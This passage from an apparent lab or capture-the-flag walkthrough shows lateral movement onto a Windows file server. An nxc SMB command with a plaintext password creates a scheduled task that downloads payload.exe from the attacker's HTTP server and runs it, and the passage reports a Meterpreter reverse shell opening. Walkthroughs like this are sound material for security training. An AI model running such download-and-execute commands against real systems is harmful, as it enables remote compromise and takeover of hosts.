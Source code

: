 
Next, we need to get our `payload.exe` on the target file server host!

Let's first split our terminal again and set up a python server to host our payload:

<figure><img src="../.gitbook/assets/image (1260).png" alt=""><figcaption></figcaption></figure>

Now let's make our target fetch our payload on our local server, and then execute it to get our reverse shell

```
nxc smb 10.1.99.248 -u "benjaminm" -p "w5gzI6&xx%aBqZC^GZ" -M schtask_as -o USER=johna CMD="powershell \"iwr -Uri http://10.1.241.175:8000/payload.exe -OutFile C:/Windows/Tasks/payload.exe; C:/Windows/Tasks/payload.exe\""
```

<figure><img src="../.gitbook/assets/image (1261).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../.gitbook/assets/image (1262).png" alt=""><figcaption></figcaption></figure>

We got the two things that said that our exploit worked:

1. Your Python HTTP server receive a `GET` request for our `payload.exe` and return a `200` status code for sucess
2. Your Metasploit handler display: **`Meterpreter session 1 opened`**

_**We got our callback!**_ 🔥
